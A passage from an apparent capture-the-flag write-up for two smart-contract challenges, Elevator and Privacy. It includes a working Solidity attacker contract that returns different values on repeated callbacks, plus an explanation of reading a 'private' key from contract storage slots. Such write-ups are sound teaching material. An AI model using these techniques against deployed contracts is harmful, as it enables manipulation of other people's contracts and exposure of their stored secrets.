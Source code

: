 ### 11. Elevator

This challenge requires us to setup a `Building` contract that returns different value for each `isLastFloor()` call. We can maintain a global state variable to track the number of times the function is called and return.

The takeaway here is still to **NOT** trust unknown external contracts, as they can execute code where you least you expect it.

```solidity
contract ElevatorAttacker {

    IElevator elevator;
    uint8 times_called = 0;

    constructor(address addr) {
        elevator = IElevator(addr);
    }

    function isLastFloor(uint) external returns (bool) {
        times_called ++;
        if (times_called == 1) {
            return false;
        }
        return true;
    }

    function attack() public {
        elevator.goTo(1);
    }

}

```

### 12. Privacy

This challenge requires us to understand the solidity storage layout.

https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#layout-of-state-variables-in-storage

Basically the rule is to pack into 32 bytes whenever possible. So the layout in the challenge contract would be:

```js
Slot 0:   bool
Slot 1:   uint256
Slot 2:   uint8, uint8, uint16
Slot 3-5: bytes32[3]
```

We can load the data in the 5th slot and retrieve the key. Another thing is that the key is in `bytes16` while storage data is `bytes32` so we need to do a conversion. Recall that fixed-size bytes behave differently during conversions compared to other types, as they take the leftmost bits intead of rightmost ones.

